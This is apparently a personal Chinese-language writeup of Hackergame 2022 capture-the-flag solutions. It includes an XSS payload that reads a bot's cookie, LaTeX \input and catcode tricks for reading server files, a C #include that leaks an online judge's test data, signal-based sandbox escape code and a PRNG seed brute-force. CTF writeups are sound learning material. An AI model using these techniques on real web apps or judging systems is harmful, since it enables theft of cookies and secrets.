





# hackergame 2022

[Hackergame 2022](https://hack.lug.ustc.edu.cn/)

这场比赛我只参加了最开始周末的两天，因为下一周就是实践周，面临着课程设计和某云计算课的报告的双重压力（尽管没比赛的这一周仍是摆烂度过的）。

但即使是短短两天，也让我深深地体会到了自己的实力相比同为选手的好友，已经大大落后了。在我最后好不容易上到 2000 分的时候，他已经到 3000 了。

两天起码还是做出了一些题，做的同时也写了 writeup 。不过我其实不是很会写 writeup ，看其他佬们写得都那么简洁，自己也不好意思向官方 PR 了，就让它留在自己的文章里面吧。

## 签到

看起来是手写识别，让你在四个框中写出 2022 四个字，但每个框都限制时长，最后两个 0.1s 和 0s 根本没法写

好在这是第一题，不会太难，观察 url 发现，提交后会带有 url 参数 `?result=????` 

改成 `?result=2022` 即可。

`flag{HappyHacking2022-222fe0d493}`

## 猫咪问答

> 3. 22 年坚持，小 C 仍然使用着一台他从小用到大的 Windows 2000 计算机。那么，在不变更系统配置和程序代码的前提下，Firefox 浏览器能在 Windows 2000 下运行的最后一个大版本号是多少？  
提示：格式为 2 位数字的整数。

google 搜索 `firefox windows 2000 latest version` ，得到答案 `12` 。

> 4. 你知道 PwnKit（CVE-2021-4034）喵？据可靠谣传，出题组的某位同学本来想出这样一道类似的题，但是发现 Linux 内核更新之后居然不再允许 argc 为 0 了喵！那么，请找出在 Linux 内核 master 分支（torvalds/linux.git）下，首个变动此行为的 commit 的 hash 吧喵！  
提示：格式为 40 个字符长的 commit 的 SHA1 哈希值，字母小写，注意不是 merge commit。

正好之前研究过内核的 execve ，源码在 fs/exec.c

搜索 `argc == 0` 只有唯一结果， git blame：

[exec: Force single empty string when argv is empty · torvalds/linux@dcd46d8](https://github.com/torvalds/linux/commit/dcd46d897adb70d63e025f175a00a89797d31a43)

看 commit message 也提到了 CVE-2021-4034 （所以也可能可以直接搜 commit ？）

得到 commit hash： `dcd46d897adb70d63e025f175a00a89797d31a43`

> 6. 中国科学技术大学可以出校访问国内国际网络从而允许云撸猫的“网络通”定价为 20 元一个月是从哪一天正式实行的？  
提示：格式为 YYYY-MM-DD，例如 2038 年 1 月 1 日，即为 2038-01-01。

一开始找到了这个，是 2011-01-01：

[网络信息中心用户服务部FAQ](https://netfee.ustc.edu.cn/faq/)

但是发现不对，于是找到了更老的文件：

[关于实行新的网络费用分担办法的通知](http://ustcnet.ustc.edu.cn/2003/0301/c11109a210890/page.htm)

答案是 2003-03-01

> P.S. 也有新的分担办法的文件：[关于实行新的网络费用分担办法的通知](http://ustcnet.ustc.edu.cn/2010/1210/c11109a210869/page.htm)

于是得到 flag1：`flag{meowexammeow_772b498346fe0925_56cc0c1bd3}`

> 2. 2022 年 9 月，中国科学技术大学学生 Linux 用户协会（LUG @ USTC）在科大校内承办了软件自由日活动。除了专注于自由撸猫的主会场之外，还有一些和技术相关的分会场（如闪电演讲 Lightning Talk）。其中在第一个闪电演讲主题里，主讲人于 slides 中展示了一张在 GNOME Wayland 下使用 Wayland 后端会出现显示问题的 KDE 程序截图，请问这个 KDE 程序的名字是什么？
提示：英文单词，首字母大写，其他字母小写。

搜索 `2022 软件自由日中国科大站`

[Software Freedom Day - LUG @ USTC](https://lug.ustc.edu.cn/wiki/lug/events/sfd/)

https://www.bilibili.com/video/BV11e411M7t9/?vd_source=37763ac9830fcc701693a765c53a5cd9&t=9725.2

软件是一个视频编辑软件 [Kdenlive](https://kdenlive.org/zh/) ，这个单词仅仅在音频中出现了一次，演示的 ppt 中没有写名字，所以听了好几遍才猜出来……

> 5. 通过监视猫咪在键盘上看似乱踩的故意行为，不出所料发现其秘密连上了一个 ssh 服务器，终端显示 ED25519 key fingerprint is MD5:e4:ff:65:d7:be:5d:c8:44:1d:89:6b:50:f5:50:a0:ce.，你知道猫咪在连接什么域名吗？  
提示：填写形如 example.com 的二级域名，答案中不同的字母有 6 个。

key fingerprint 是 ssh public key 的 hash ，这里是 md5 ；看上去根本没法推出域名信息。

做到一半发现增加了补充说明：

> 补充说明 1：第 5 小题的答案中，域名的字母共有 6 个，各不相同，该域名于 1996 年创建。

我很好奇到底是什么网站在 1996 年创建，开放 ssh 访问，而且二级域名只有 6 个字母。

github 算是有 ssh 访问的，但是它是 2008 年创建的。

搜索 `public ssh server list` 找到了一个域名 `sdf.org`

[service - Free public SSH server for testing purposes - Server Fault](https://serverfault.com/a/185235)

whois 一看，确实是 1996 年注册的。

[Whois sdf.org](https://www.whois.com/whois/sdf.org)

我们来看一下它的 key fingerprint ：

`ssh sdf.org` ，询问确认公钥输入 yes ，我的 ssh 显示的是 sha256 hash；因此在 known_hosts 找：

```
sdf.org,205.166.94.16 ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJJk3a190w/1TZkzVKORvz/kwyKmFY144lVeDFm80p17
```

ed25519 公钥，计算它的 md5：

[What is a SSH key fingerprint and how is it generated? - Super User](https://superuser.com/questions/421997/what-is-a-ssh-key-fingerprint-and-how-is-it-generated/714195#714195)

先 base64 decode 再计算 md5 ：

```
echo 'AAAAC3NzaC1lZDI1NTE5AAAAIJJk3a190w/1TZkzVKORvz/kwyKmFY144lVeDFm80p
17' | base64 -d | md5sum
e4ff65d7be5dc8441d896b50f550a0ce  -
```

没错了，就是它！ `sdf.org`

> 1. 中国科学技术大学 NEBULA 战队（USTC NEBULA）是于何时成立的喵？
提示：格式为 YYYY-MM，例如 2038 年 1 月即为 2038-01。

这个感觉可以穷举？

首先试着搜了一下具体的成立日期，没找到。

google 按照时间查找，和 NEBULA 战队有关的信息基本从 2018 年开始出现，因此从 2017 年搜起：

```py
import httpx
c = httpx.Client()
c.headers = {'Cookie':'{从登录的页面抓包获取}'}
ok = False
for i in range(2017,2019):
    for j in range(1,13):
        print(f'{i}-{j:02}')
        r = c.post('http://202.38.93.111:10002/', data={'q1':f'{i}-{j:02}','q2':'','q3':'','q4':'','q5':'','q6':'',})
        if r.content.decode('utf-8').find('答错') == -1:
            ok = True
            break
    if ok:
        break
```

P.S. 一开始铸币的我弄了两层循环却忘记 break 最外层了，导致一直找不到，甚至尝试从 2005 年开始搜起……

答案：`2017-03`

flag2：`flag{meowexamfullymeowed!_6c159adddb7f171b_ac99d97009}`


## 家目录里的秘密

直接解压然后 grep flag 拿到了「VSCode 里的 flag」：

```
grep flag . -R
./.config/Code/User/History/2f23f721/DUGV.c:// flag{finding_everything_through_vscode_config_file_932rjdakd}
```

接下来还有 rclone 里的 flag

rclone 相关配置文件有两个，其中一个是：

```
cat .config/rclone/rclone.conf
[flag2]
type = ftp
host = ftp.example.com
user = user
pass = tqqTq4tmQRDZ0sT_leJr7-WtCiHVXSMrVN49dWELPH1uce-5DPiuDtjBUN3EI38zvewgN5JaZqAirNnLlsQ
```

上面已经明明白白地写了 flag2 ，但是下面的 pass 怎么看都不太像 flag 。

## Xcaptcha

web 题，要求在 1s 内完成三个大数加法，直接 py 模拟：

```py
import httpx
import re


def main():
    c = httpx.Client()
    c.follow_redirects = True
    # 登录
    c.get('{打开题目的 url}')
    r = c.get('http://202.38.93.111:10047/xcaptcha', headers={'Referer': 'http://202.38.93.111:10047/xcaptcha'})
    d = r.content.decode('utf-8')
    print(r, d)
    s = re.findall("(\d+)\+(\d+) 的结果是", d)
    print(s)
    assert len(s) == 3
    answers = []
    for p1, p2 in s:
        p1 = int(p1)
        p2 = int(p2)
        answers.append(p1 + p2)
    data = {
        'captcha1': answers[0],
        'captcha2': answers[1],
        'captcha3': answers[2]
    }
    r = c.post('http://202.38.93.111:10047/xcaptcha', data=data)
    print(r, r.content.decode('utf-8'))


if __name__ == '__main__':
    main()
```

一步成功。

`flag{head1E55_br0w5er_and_ReQuEsTs_areallyour_FR1ENd_99eb45db91}`

flags 让我用无头浏览器……难道要 selnium 之类的模拟吗，感觉速度不如直接请求……

## 微积分计算小练习

这题的 flag 和那几道微积分题目没任何关系，做 100 分也拿不到 flag （大概，我根本没做）。

提交练习会生成一个链接，显示成绩和姓名；而这个链接的参数实际上是 b64 过后的成绩和姓名：

`http://202.38.93.111:10056/share?result={b64(成绩:姓名)}`

此外，这些内容由 js 从 url 参数提取并渲染

```js

        function click() {
            var url = window.location.href;
            var input = document.createElement('input');
            input.setAttribute('readonly', 'readonly');
            input.setAttribute('value', url);
            document.body.appendChild(input);
            input.select();
            if (document.execCommand('copy')) {
                document.execCommand('copy');
                alert('已复制到剪贴板');
            }
            document.body.removeChild(input);
        }
        
        document.querySelector("#copy").addEventListener("click", click);

        const queryString = window.location.search;
        const urlParams = new URLSearchParams(queryString);
        const result = urlParams.get('result');
        const b64decode = atob(result);
        const colon = b64decode.indexOf(":");
        const score = b64decode.substring(0, colon);
        const username = b64decode.substring(colon + 1);

        document.querySelector("#greeting").innerHTML = "您好，" + username + "！";
        document.querySelector("#score").innerHTML = "您在练习中获得的分数为 <b>" + score + "</b>/100。";
```

可以发现这里我们能注入 xss 到 username 里面。

bot.py 中，使用 selenium 访问本地搭建的同样的服务器，并注入 flag 到 document.cookie

```py
    with webdriver.Chrome(options=options) as driver:
        ua = driver.execute_script('return navigator.userAgent')
        print(' I am using', ua)

        print('- Logining...')
        driver.get(LOGIN_URL)
        time.sleep(4)

        print(' Putting secret flag...')
        driver.execute_script(f'document.cookie="flag={FLAG}"')
        time.sleep(1)

        print('- Now browsing your quiz result...')
        driver.get(url)
        time.sleep(4)

        try:
            greeting = driver.execute_script(f"return document.querySelector('#greeting').textContent")
            score = driver.execute_script(f"return document.querySelector('#score').textContent")
        except selenium.common.exceptions.JavascriptException:
            print('JavaScript Error: Did you give me correct URL?')
            exit(1)

        print("OK. Now I know that:")
        print(greeting)
        print(score)
```

既然可以任意执行 js ，我们构造一个 xss 把 greeting 的内容改成 document.cookie 即可：

```html
0:
```

P.S. 似乎是现在的浏览器的安全策略的问题，innerHTML 里面写 `<script>` 会自动转换掉，不会执行，因此用了其他 xss 手段。

url:

```
http://202.38.93.111:10056/share?result=MDo8aW1nIG9uZXJyb3I9ImRvY3VtZW50LnF1ZXJ5U2VsZWN0b3IoJyNncmVldGluZycpLmlubmVySFRNTD1kb2N1bWVudC5jb29raWUiIHNyYz0iZmV3Ij4%3D
```

粘贴到提交 url 的 console ，即可拿到 flag：

flag{xS5_1OI_is_N0t_SOHARD_203330be43}

## HeiLang

如题目描述，`a[x|y|z] = t` 就是 `a[x]=a[y]=a[z]=t`

于是直接替换 `|` -> `]=a[` ，运行代码即可。

`flag{6d9ad6e9a6268d96-7dd3764f5027e4a0}`

## 旅行照片

### 照片分析

这个比较容易，照片下载下来，任意能查看 exif 的软件都能做出来。

这里我使用了 honeyview ，得到 EXIF 信息：

```
文件名: travel-photo-2.jpg [1/1]
图片大小: 1.6MB
修改日期: 2022/10/22 19:54:20
图片信息: 2160x3840 (Jpeg,YUV420,ICC profile,sRGB)

相机制造商: Xiaomi
相机型号: sm6115 (juice)
软件: HDR+ 1.0.345618096zdy
拍摄日期: 2022/05/14 18:23:35
闪光灯: No
焦距: 4.71mm (焦距 (35mm): 41mm)
快门速度: 0.000791s  (1/1264)
光圈数: f/1.8
ISO 感光度: 84
曝光程序: Program (auto)
测光模式: Center weight
```

其中没有 EXIF 版本，而 Windows 的属性可以看到 exif 版本为 0231 ，但是格式是 `2.1` ，查了一下资料没找到两者的对应关系，考虑到有 `2.31` 版本，于是写上去，对了。

`flag{1f_y0u_d0NT_w4nt_shOw_theSe_th3n_w1Pe_EXlF}`

### 社工实践

放大图片寻找特殊地标，发现一串文字，疑似是日本的某地。


google 搜索，发现有个叫「ZOZO MARINE Stadium」的地方，确实位于日本，并且是沿海的。


附近最近的酒店，看起来确实像是能拍摄出照片的位置。


`〒261-0021 千葉県千葉市美浜区ひび野２丁目３` 邮编应该为 `2610021`


## LaTeX 机器人

题中的程序会读取用户输入，与一个 latex 模板拼接，然后输出 pdf ，转成图片给用户，而 flag 放在根目录。

第一反应是找 latex 中有什么 import 的命令，果然有：

[\input (LaTeX2e unofficial reference manual (May 2022))](https://latexref.xyz/_005cinput.html)

input 和 include ，前者支持 非 .tex 结尾的文件。

### 纯文本

> 第一个 flag 位于 /flag1，flag 花括号内的内容由纯文本组成（即只包含大写小写字母和数字 0-9）。

于是输入 `\input{/flag1}` ：



`flag{becAr3fu11dUd34e4619ee75}`

### 特殊字符混入

这回老套路行不通了，`\input{/flag2}` 会编译失败。

题目提示增加了 `#` 和 `_` ，第一想法是了解 `#` 的作用（我们都知道 `_` 是下标）

[macros - What is the purpose of hash (#) as a special character sign? - TeX - LaTeX Stack Exchange](https://tex.stackexchange.com/questions/232636/what-is-the-purpose-of-hash-as-a-special-character-sign)

由于大部分问题都是如何打出 `#` 符号，得到的结果都是类似于「用 `\#`」的回答，因此找到这个问答费了一番功夫（搜索 `latex usage of hash`）。

`#` 主要用于 macro 的参数，后面跟着数字，这就有点麻烦了，因为我们不知道 flag 中 `#` 如何分布的。

不过在搜索 macro 的用法的时候看到了[这么一个回答](https://tex.stackexchange.com/a/232640)比较有意思：

> Here is a bad example how to change the macro parameter character ;-)

```
\documentclass{article}

\catcode`#=11
\catcode`!=6


\newcommand{\mymacro}[1]{%
  \newcommand{\myinnermacro}[1]{%
    Outer: !1

    Inner: !!1
  } 

  \myinnermacro{\textbf{!1}}
}


\begin{document}
\mymacro{\LaTeX\ is beautiful}
\end{document} 
```

看上去我们可以用 `\catcode` 重新定义符号的用法：

[TeX/catcode - Wikibooks, open books for an open world](https://en.wikibooks.org/wiki/TeX/catcode)

定义为 11 ，即可将其当作普通字符处理。

于是输入：

```
\catcode`\#=11 \catcode`\_=11 \input{/flag2}
```

最终拿到 flag：



`flag{latex_bec_0_m##es_co__#ol_cff144ab55}`

## Flag 自动机

第一次尝试 binary 题目，有了 ghidra 的加持，成功拿到 flag。

没有检查 strings ，因为怎么想都觉得不可能那么显眼直接 flag 明文放在字符串里面。

首先这个程序是典型的 win32 窗口程序，打开 ghidra 分析，发现 MessageBoxW 函数的调用：






简单来说，param_3 == 2 就对应点击退出按钮， == 3 就是对应获取 flags 的按钮。

于是简单 patch 一下上面的指令（红字为修改之前的），改成点击退出获取 flag（上图反汇编就是 patch 后的结果）



最后用 ghidra export 出来运行即可。

这个 exe 没有完整性校验，因此过了。

`flag{Y0u_rea1ly_kn0w_Win32API_89ab91ac0c}`

其实也可以考虑别的思路。既然这里是通过窗口事件判断的按钮点击，我们也可以直接用 Windows API 发个消息给它？不过我对 Win32 不熟，所以选择了最简单粗暴的办法。


## 安全的在线测评

大数分解是著名的难题，所以突破口必然不是解决题目本身。

### 无法 AC 的题目

看了一下评测代码，受到之前 latex 题目的启发，我们也可以用 include 偷看数据，毕竟执行 gcc 的时候并没有降权。

编译的文件路径在 `./temp/` ，输入输出在 `./data` ，因此我们先写一段代码把 static.out 偷出来：

```c
#include "../data/static.out"
```

```
In file included from ./temp/code.c:1:
./temp/../data/static.out:1:1: error: expected identifier or ‘(’ before numeric constant
    1 | 9760010330994056474520934906037798583967354072331648925679551350152225627627480095828056866209615240305792136810717998501360021210258189625550663046239919
      | ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
静态数据测试： Compile Error
```

这样成功拿到了静态数据的第一个质数，不过第二个在下一行，没有打印出来。

那就拿 static.in ，除一下不就好了？

```
In file included from ./temp/code.c:1:
./temp/../data/static.in:1:1: error: expected identifier or ‘(’ before numeric constant
    1 | 104282807526880757859994094527870976371690207188144127579265020967770373595617196482192658438848054135186773270989449104391708599334910550847893180291830360838640917202574211707345622191305096245583475971670346651912348257881253972478996837370880919979672426413406738598158938877541450113490168164315226299849
      | ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
静态数据测试： Compile Error
```

拿到 python 除一下，再验证：

```py
In [177]: p1=9760010330994056474520934906037798583967354072331648925679551350152225627627480095828056866209615240305792
     ...: 136810717998501360021210258189625550663046239919

In [178]: p2=1042828075268807578599940945278709763716902071881441275792650209677703735956171964821926584388480541351867
     ...: 7327098944910439170859933491055084789318029183036083864091720257421170734562219130509624558347597167034665191
     ...: 2348257881253972478996837370880919979672426413406738598158938877541450113490168164315226299849

In [179]: p2/p1
Out[179]: 1.0684702576155937e+154

In [180]: p2//p1
Out[180]: 10684702576155937335553595920566407462823007338655463309766538118799757703957743543601066745298528907374149501878689338178500355437330403123549617205342471

In [181]: p3=_

In [182]: p3*p1==p2
Out[182]: True
```

没问题了，接下来写个 C 程序把内容输出来就行。

```c
#include <stdio.h>

int main() {
puts("9760010330994056474520934906037798583967354072331648925679551350152225627627480095828056866209615240305792136810717998501360021210258189625550663046239919\n10684702576155937335553595920566407462823007338655463309766538118799757703957743543601066745298528907374149501878689338178500355437330403123549617205342471");
return 0;
}
```

`flag{the_compiler_is_my_eyes_d4f539fa8f}`

## 看不见的彼方

虽然有 chroot 限制文件系统， seccomp 限制 socket ，但我们还有信号！

虽然无法访问 procfs ，但考虑到 Alice 和 Bob 进程先后被 fork，因此 pid 大概率相差 1 。

在记事本中写出了这些代码：

```c
// alice
#include <unistd.h>
#include <stdio.h>
#include <fcntl.h>
#include <signal.h>

void sighand(int s, siginfo_t *info, void *ext){
}

int main() {
int pid=getpid()+1;
sleep(1);
sigset_t s;
sigemptyset(&s);
sigaddset(&s,SIGUSR1);
sigprocmask(SIG_UNBLOCK,&s,NULL);

struct sigaction act;
act.sa_flags=SA_SIGINFO;
act.sa_sigaction=&sighand;
sigaction(SIGUSR1,&act,NULL);

int f=open("./secret",O_RDONLY);
union sigval v;
for(int i=0;i<16;i++){
read(f,&v.sival_int,sizeof(int));
sigqueue(pid,SIGUSR1,v);
pause();
}
return 0;
}

// bob
#include <stdio.h>
#include <signal.h>
#include <unistd.h>

int j=0;

void sighand(int s, siginfo_t *info, void *ext){
j++;
write(1,&info->si_value.sival_int,4);
kill(getpid()-1,SIGUSR1);
}

int main() {
sigset_t s;
sigemptyset(&s);
sigaddset(&s,SIGUSR1);
sigprocmask(SIG_UNBLOCK,&s,NULL);

struct sigaction act;
act.sa_flags=SA_SIGINFO;
act.sa_sigaction=&sighand;
sigaction(SIGUSR1,&act,NULL);
while(j!=16){
pause();
}
return 0;
}
```

密钥长度是 64 字节，信号一次只能带 4 字节信息（用 sival_ptr 似乎可以 8 字节？）。因此 Alice 发送 16 次，Bob 接收 16 次；每次 Alice 发送完就 pause ，等待 Bob 的回应信号，以确保顺序。

在 wsl 下编译，`gcc -static` 编译成静态 exe ，防止需要链接动态库。

`flag{ChR00t_ISNOTFULL_1501AtiOn_cd8b6b962a}`


## 蒙特卡罗轮盘赌

题目中使用了 srand 这种伪随机数，只要 seed 相同，每次生成的序列都是相同的，并且种子与时间有关，因此我们可以试出这个 seed ：

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>

double rand01()
{
	return (double)rand() / RAND_MAX;
}

int main(int argc, char **argv)
{
	argc--;argv++;
	if (argc<2) return 1;
	int start = atoi(argv[0]);
	char *target=argv[1];
	printf("start=%d,target=%s\n",start,target);
	char result[20];
	int seed = start;
	while (1) {
		srand(seed);
		printf("trying %d\r", seed);
		int M = 0;
		int N = 400000;
		for (int j = 0; j < N; j++) {
			double x = rand01();
			double y = rand01();
			if (x*x + y*y < 1) M++;
		}
		double pi = (double)M / N * 4;
		sprintf(result, "%1.5f", pi);
		result[7] = 0;
		if (strcmp(result, target) == 0) break;
		seed++;
	}
	printf("found  %d\n", seed);
	for (int i = 0; i < 4;i++) {
		int M = 0;
		int N = 400000;
		for (int j = 0; j < N; j++) {
			double x = rand01();
			double y = rand01();
			if (x*x + y*y < 1) M++;
		}
		double pi = (double)M / N * 4;
		printf("next %d:%1.5f\n", i, pi);
	}
	return 0;
}
```

打开终端，记录当前时间戳，先猜错一个，然后用上面的程序开始暴力：

```c
start=1666511693,target=3.14272
found  1666512408
next 0:3.14221
next 1:3.14180
next 2:3.13952
next 3:3.14187
```

可以发现大概跑几百个就出来了，也不慢。

`flag{raNd0m_nUmb34_a1wayS_m4tters_a86801acea}`

> P.S. 题目使用了 debian 11 的 docker 镜像，而我用的是 wsl ，rand 的实现是否会有不同尚不清楚，不过能得到 flag ，说明可能实现也没太大区别。

# 摆！

2022.10.23

